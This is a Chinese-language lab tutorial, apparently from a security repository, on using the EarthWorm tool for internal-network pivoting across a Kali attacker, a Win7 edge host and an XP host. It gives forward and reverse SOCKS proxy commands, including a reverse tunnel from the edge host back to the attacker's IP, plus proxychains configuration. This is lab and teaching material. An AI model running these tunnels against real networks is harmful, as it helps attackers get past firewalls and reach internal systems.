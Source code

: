
# 环境准备
攻击机：<br />kali：192.168.1.28<br />![image-20210913152247891.png](_img/assets/1655878728663-625070f2-7c06-40e7-9cee-4f5f5633c92c.png)

内网边缘机器：<br />Win7：192.168.1.8   10.10.10.2<br />![image-20210913144106204.png](_img/assets/1655878733735-4c2fae46-3190-4ad3-9449-30eebcf29b6b.png)

内网机器：<br />win XP：10.10.10.3<br />![image-20210913144131732.png](_img/assets/1655878741408-6c22f122-9869-435a-9787-811035c5b0a0.png)


# EW
下载地址：[http://rootkiter.com/EarthWorm/](http://rootkiter.com/EarthWorm/)

**EarthWorm**是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。

目前工具提供六种链路状态，可通过 -s 参数进行选定
```
ssocksd       //正向代理
rssocks       //反向代理
lcx_slave    //该管道一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。
lcx_tran     //该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。
lcx_listen   //该管道，通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。
```


## EW正向代理
1、在内网边缘主机上运行
```
ew_for_win.exe -s ssocksd -l 1090
```
![image-20210914144658794.png](_img/assets/1655878758651-fa8b980a-2b8b-40e5-b3a7-43a79e84615c.png)

2、配置代理<br />在攻击机配置proxychains代理链的配置文件vim /etc/proxychains4.conf，将代理设置成本机的1090端口：socks5 192.168.1.8 1090
```
vim etc/proxychains4.conf
```

配置浏览器代理<br />![image-20210914145308369.png](_img/assets/1655878767562-fabbb863-bba7-4301-a123-e9a1f69d23bf.png)

3、访问测试<br />![image-20210914145319879.png](_img/assets/1655878774448-9b1658eb-3da9-4dcc-8557-cc6678e60bbb.png)

![image-20210914145403665.png](_img/assets/1655878778970-bafbde5b-5bcf-491d-ba08-025395ee2f81.png)


## EW反向代理
1、在攻击机执行
```
./ew_for_linux64 -s rcsocks -l 1080 -e 1024
```
![image-20210914145620311.png](_img/assets/1655878785838-0cd8288e-a568-4ecf-8c87-ac05779802b3.png)

2、在内网边缘机器执行
```
ew_for_win.exe -s rssocks -d 192.168.1.28 -e 1024
```
![image-20210914145856492.png](_img/assets/1655878790512-d9b09047-bc23-40b5-83f8-660c47971c60.png)

连接成功<br />![image-20210914150002994.png](_img/assets/1655878794522-77620afb-6afa-45a9-8df4-46d46dfa85f0.png)

3、配置代理<br />在攻击机配置proxychains代理链的配置文件vim /etc/proxychains4.conf，将代理设置成本机的1090端口：socks5 127.0.0.1 1080<br />![image-20210914150112165.png](_img/assets/1655878798931-e75526e0-292a-465c-ba17-3a8af9af19bf.png)

在浏览器配置代理<br />![image-20210914150331273.png](_img/assets/1655878803215-57977280-e007-43a5-9950-9017549f143b.png)

4、访问测试<br />![image-20210914150340106.png](_img/assets/1655878806712-ce0195bd-9763-4b69-a2b7-005e5c0669e7.png)

![image-20210914150414868.png](_img/assets/1655878813266-67832367-0431-485b-b6bc-4350e1dba8b6.png)
